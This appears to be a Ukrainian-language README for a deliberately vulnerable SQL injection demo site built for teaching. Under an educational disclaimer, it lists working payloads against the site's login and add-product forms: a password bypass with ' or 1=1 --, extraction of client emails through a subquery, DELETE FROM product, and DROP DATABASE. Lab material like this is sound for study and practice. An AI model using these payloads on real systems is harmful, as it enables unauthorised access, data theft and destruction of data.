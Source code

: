 # 🛡️ SQL Injection Demo Site

Цей проєкт — демонстраційний сайт для дослідження та практики SQL-інʼєкцій.

---

## ⚠️ Застереження

**Цей сайт створений виключно з навчальною метою.**  
Використання SQL-інʼєкцій у реальних застосунках є незаконним та неетичним. Будьте свідомими.

---

## 🔐 Уразливість при авторизації

Форма входу підставляє дані напряму в SQL-запит без екранування.

### 📥 Вхід у застосунок:

#### Через випадковий акаунт не знаючи email:
- `' or 1=1 --`

#### Якщо відомо існуючий в системі email:
- `admin@gmail.com' -- `

#### Або для правильного email ввести такий "пароль":
- `' or 1=1 -- `

Ці інʼєкції обходять перевірку пароля.

---

## 🛒 Уразливість при додаванні продукту

Форма додавання нового товару вразлива до інʼєкцій через поле назви.

### 📌 Приклади інʼєкцій:

#### ❗ Зміщення структури SQL:

```
qwe', 'qwe', '-50') -- 
```

#### 📬 Отримання даних з іншої таблиці:

```
qwe', (SELECT email FROM client LIMIT 1), '50') -- 
```

#### 💣 Знищення даних:

```
qwe', 'qwe', '50'); DELETE FROM product -- 
```

### ❗❗❗ Знищення всієї бази даних:

#### 📬 Отримання назви бази даних:

```
qwe', (SELECT DATABASE()), '50') -- 
```

#### 📬 Дроп бази даних:

```
qwe', 'qwe', '50'); DROP DATABASE mydatabase -- 
```
